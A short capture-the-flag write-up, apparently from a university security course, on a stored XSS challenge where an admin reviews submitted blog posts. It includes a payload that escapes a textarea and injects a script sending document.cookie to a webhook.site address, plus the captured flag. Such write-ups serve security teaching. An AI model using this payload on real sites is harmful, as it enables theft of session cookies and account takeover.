



---

## Description

Go on. I really don't care as long as you read my posts.

`http://ssof2526.challenges.cwte.me:25253`

---

The website this time is different.


Creating a blog post got me to this page.


Clicking "Update post and send it for admin review" makes the "admin" see our post.

I also saw that my text was inside a textarea, so I tried to escape it using the following payload.


PAYLOAD:
`"</textarea><script>fetch("https://webhook.site/e28973d5-ddd8-430a-9c8b-9bb9034753ff?c="+document.cookie)</script>`

Doing it got me the cookie.


## FLAG
```flag
SSof{I_do_not_get_this_Too_many_weird_characters_Automatic_reject}
```

---

## Conclusion

This challenge showed how placing user input inside a `<textarea>` isn't enough to prevent XSS. By breaking out of the element and injecting a script tag, I was able to run JavaScript when the admin reviewed the post and send their cookies to my webhook.
